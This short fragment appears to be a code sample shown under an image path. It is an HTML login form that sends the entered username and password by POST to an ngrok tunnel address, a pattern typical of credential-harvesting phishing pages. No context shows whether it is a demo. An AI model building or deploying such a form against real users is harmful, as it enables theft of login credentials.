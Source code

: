 <form method="POST" action="https://1a2b3c4d5e.ngrok.io/login">
  <input type="text" name="username" placeholder="Username"><br>
  <input type="password" name="password" placeholder="Password"><br>
  <button type="submit">Login</button>
</form>